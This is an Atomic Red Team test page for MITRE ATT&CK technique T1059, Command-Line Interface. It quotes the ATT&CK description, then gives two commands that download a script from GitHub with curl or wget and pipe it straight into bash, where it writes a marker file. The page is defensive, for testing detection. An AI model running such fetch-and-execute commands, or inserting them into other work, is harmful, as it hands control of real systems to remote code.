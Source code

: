 # T1059 - Command-Line Interface
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1059)
<blockquote>Command-line interfaces provide a way of interacting with computer systems and is a common feature across many types of operating system platforms. (Citation: Wikipedia Command-Line Interface) One example command-line interface on Windows systems is [cmd](https://attack.mitre.org/software/S0106), which can be used to perform a number of tasks including execution of other software. Command-line interfaces can be interacted with locally or remotely via a remote desktop application, reverse shell session, etc. Commands that are executed run with the current permission level of the command-line interface process unless the command includes process invocation that changes permissions context for that execution (e.g. [Scheduled Task](https://attack.mitre.org/techniques/T1053)).

Adversaries may use command-line interfaces to interact with systems and execute other software during the course of an operation.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Command-Line Interface](#atomic-test-1---command-line-interface)


<br/>

## Atomic Test #1 - Command-Line Interface
Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

This will download the specified payload and set a marker file in `/tmp/art-fish.txt`.

**Supported Platforms:** macOS, Linux





#### Attack Commands: Run with `sh`! 


```sh
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
```






<br/>
